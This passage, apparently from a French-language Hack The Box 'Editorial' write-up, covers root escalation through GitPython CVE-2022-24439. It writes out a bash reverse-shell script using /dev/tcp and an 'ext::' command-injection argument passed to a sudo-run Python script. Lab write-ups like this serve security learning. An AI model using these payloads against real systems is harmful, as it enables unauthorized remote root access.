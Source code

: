 ![installed python packages list](/images/HTB-Editorial/python_pkg_list.png)

Des recherches sur les vulnérabilités de cette version nous permettent de trouver le [CVE-2022-24439](https://github.com/PyCQA/bandit/issues/971) avec un PoC [ici](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858).

Le code exploite le protocole `ext::` de Git qui permet aux utilisateurs de passer des commandes externes au lieu des protocoles standards tels que `https` et `ssh`, ce qui permet de réaliser une injection de commande.

Utilisons un script bash afin d'obtenir un shell inversé en tant que `root`.

Nous créons `revshell.sh` et le rendons exécutable avec `chmod +x revshell.sh`.

```bash
#!/bin/bash

IP="YOUR_IP"  
PORT="PORT_NUMBER"

/bin/bash -i >& /dev/tcp/$IP/$PORT 0>&1
```

Ensuite, nous exécutons la commande ci-dessous pour obtenir un shell root sur notre listener, ce qui nous permet de lire le drapeau root dans `/root`.

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::/tmp/revshell.sh'
```

![Reverse shell trigger](/images/HTB-Editorial/git_script_ext.png)

![Editorial root flag](/images/HTB-Editorial/root_flag_editorial.png)

Ce défi était assez simple, du moment que vous étiez minutieux dans votre énumération. Merci d'avoir pris le temps de lire cet article et portez vous bien!
